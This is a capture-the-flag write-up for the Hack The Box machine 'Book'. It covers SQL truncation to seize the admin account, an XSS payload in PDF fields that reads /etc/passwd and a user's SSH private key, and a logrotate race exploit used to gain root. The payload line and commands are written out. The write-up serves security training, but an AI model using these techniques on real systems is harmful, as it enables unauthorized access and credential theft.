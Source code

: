 ```yaml
---
layout: post
title:  htb-book
date:   2020-07-25 07:00:00
---
```


# Enum
### NMAP

As always, begin with nmap  

>nmap -sC -sV -T4 -p 22,80 10.10.10.176
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-07-25 00:18 -03
>Nmap scan report for 10.10.10.176
>Host is up (0.19s latency).
>
>PORT   STATE SERVICE VERSION
>22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
>| ssh-hostkey: 
>|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)
>|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)
>|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)
>80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
>| http-cookie-flags: 
>|   /: 
>|     PHPSESSID: 
>|_      httponly flag not set
>|_http-server-header: Apache/2.4.29 (Ubuntu)
>|_http-title: LIBRARY - Read | Learn | Have Fun
>Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel
>
>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
>Nmap done: 1 IP address (1 host up) scanned in 12.69 second  

Opening the port 80 I got this  
![book1](img/book1.png)

After register I found the admin  email: admin@book.htb  
![book2](img/book3.png)
At first I didn't know what to do with this  
Until I back to home page, look the source and find this  
![book3](img/book2.png)  

### SQL Truncation

Using *[SQL truncation](https://resources.infosecinstitute.com/sql-truncation-attack/)* with Burp Suite I tested "name" and "email" fields with more characters  

![book4](img/book4.png)  

Logged in with the credentials admin@book.htb qwerty  

![book5](img/book5.png)  

Using *[this](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html)* as reference I found a way in  
### Exploit

Loged as user again I uploaded a pdf with the fields "author" and "book title" filled with this script  
\*Missing tags  

x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();  

Downloading the pdf at http://10.10.10.176/admin/collections.php?type=collections I got the /etc/passwd  

![book6](img/book6.png)  

If I was runnin to get user blood next step would be "file:///home/reader/user.txt"  

Before get the id\_rsa from reader I tried root, perhaps....  

Now I know that there is a user called reader, I chnged the script part "///etc/passwd" to "/home/reader/.ssh/id\_rsa and uploaded a new pdf, downloaded it again and a got the id\_rsa from user reader  

Copy that to another file called id\_rsa and "chmod 600 id\_rsa"  

![book7](img/book7.png)  

Now just "ssh -i id\_rsa reader@10.10.10.176" and smile  

![book8](img/book8.png)
# Priv Esc

After a enumerte almost everything and don't find nothing  

I used [pspy](https://github.com/DominicBreuker/pspy.git) and find root process  
scp -i id\_rsa pspy64s reader@10.10.10.176  


pspy give me this process logrotate /usr/sbin/logrotate -f /root/log.cfg  

![book9](img/book9.png)

Search logrotate exploit in google and found [this](https://github.com/whotwagner/logrotten) on github  
Cloned the repository and uploaded it with scp command  
Unziped the archive and compiled the logrotten.c with gcc

gcc -o logrotten logrotten.c  

Created the payload  and executed logrotten

![book10](img/book10.png)  

Now just cat /tmp/id\_rsa to another file and ssh to root


![book11](img/book11.png)  
![book12](img/book12.png)  

